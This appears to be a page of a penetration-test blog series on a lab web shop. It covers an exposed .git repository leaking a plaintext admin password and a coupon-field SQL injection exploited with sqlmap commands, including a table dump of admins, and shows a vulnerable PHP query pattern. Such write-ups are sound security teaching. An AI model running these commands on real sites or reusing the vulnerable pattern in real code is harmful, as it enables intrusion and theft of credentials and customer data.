

Two leads came out of recon: a readable `/.git/` directory and a coupon field that queries the database. Both turned out to give administrator credentials, by different routes. I document both because fixing only one would leave the other open.

:::note[Sanitized evidence]
Terminal output below is transcribed from my original evidence, with the host, IP, local machine name, repository owner, credentials and personal data replaced. Screenshots have sensitive fields blacked out (solid boxes, not blur).
:::

## Finding 1: Exposed `.git` repository (High, 7.5)

`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`

### Confirming it

Gobuster had already returned `200` for `/.git/HEAD`. Nmap's default scripts confirm it and also read the repository config:

```bash
nmap -sC shoplab.lab
```

```text title="nmap -sC (excerpt)"
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
|_http-title: <shop title>
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-git:
|   10.10.10.10:80/.git/
|     Git repository found!
|     Remotes:
|_      https://github.com/<REDACTED>/<REDACTED>
443/tcp  open   https
888/tcp  open   accessbuilder
7800/tcp open   asr
```

The `Remotes` line is the important part. The repository's `origin` pointed at a **public** GitHub repository, so I didn't even need to rebuild the source from `/.git/` objects. The whole codebase was one click away.

### What was in it



Next to the application code was a folder named `DATABASE FILE` holding a full SQL dump. The admin row in it stored the password as cleartext, not a hash:

```sql title="DATABASE FILE/<dump>.sql (excerpt, values redacted)"
INSERT INTO `admins` (`admin_id`, `admin_name`, `admin_email`, `admin_pass`, ...) VALUES
(2, 'Administrator', '<REDACTED_EMAIL>', '<REDACTED_PLAINTEXT_PASSWORD>', ...);
```

The same dump contained every customer's name, email, phone number and address.

**Impact:** an unauthenticated attacker gets the full source code, the database schema, admin credentials and customer PII, with no exploitation at all. Anything else in the code, such as the SQL query behind the coupon field, can now be read instead of guessed.

## Finding 5: SQL injection in the coupon `code` parameter (Critical, 9.8)

`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

### Why this parameter

A coupon code is user-typed text that the server looks up in a table. In a hand-written PHP shop, that lookup is very often built by string concatenation, which places the input inside the SQL statement. This is the vulnerable pattern (illustrative, not the app's exact code):

```php title="Vulnerable pattern (illustrative)"
$code = $_POST['code'];
$result = mysqli_query($con, "SELECT * FROM coupons WHERE coupon_code='$code'");
```

### Step 1: Capture the request

I applied a dummy coupon in the cart, captured the request in Burp Suite, and saved it to a file so the testing tool could replay it with my session:

```http title="cart-request.txt (sanitized)"
POST /cart.php HTTP/1.1
Host: shoplab.lab
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=<SESSION_ID>

quantity-3=1&code=123&apply_coupon=Apply+Coupon+Code
```

### Step 2: Confirm and assess with sqlmap

```bash
sqlmap -r cart-request.txt -p code --dbs
```

sqlmap confirmed three independent techniques on `code` (boolean-based blind, error-based, time-based blind). Several working techniques mean this is not a false positive. It also identified the backend and listed the databases:

```text title="sqlmap (excerpt)"
Parameter: code (POST)
    Type: boolean-based blind
    Type: error-based
    Type: time-based blind
[INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
available databases [3]:
[*] information_schema
[*] performance_schema
[*] shoplab_db
```

### Step 3: Scope the impact

To show how much data was reachable, I listed the application's tables:

```bash
sqlmap -r cart-request.txt -p code -D shoplab_db --tables
```

```text title="sqlmap (excerpt)"
Database: shoplab_db  [16 tables]
+-------------------+
| about_us          |
| admins            |
| cart              |
| categories        |
| coupons           |
| customer_orders   |
| customers         |
| enquiry_types     |
| manufacturers     |
| payments          |
| pending_orders    |
| product_categories|
| products          |
| store             |
| terms             |
| wishlist          |
+-------------------+
```

`admins`, `customers` and `payments` together cover the whole business: staff accounts, customer PII and transaction records. To prove impact without touching customer data, I limited the dump to the `admins` table only:

```bash
sqlmap -r cart-request.txt -p code -D shoplab_db -T admins --dump
```

The dumped administrator email and (plaintext) password were then accepted at `/admin_area/login.php` on the first attempt, confirming full admin account takeover starting from an anonymous visitor.

**Impact:** read access to the entire database, plus administrator access to the shop. Because the injection executes with the application's database privileges, a privileged database user would also allow data modification.

## Where this leaves me

I now hold one valid admin session, obtained two different ways. The next page looks at what an admin can reach that they should not: the admin panel trusts a numeric ID in the URL, which turns one admin login into control over every admin account.

Next: [Post-Exploitation & Privilege Escalation](/blog/recon-to-admin-takeover/post-exploitation)
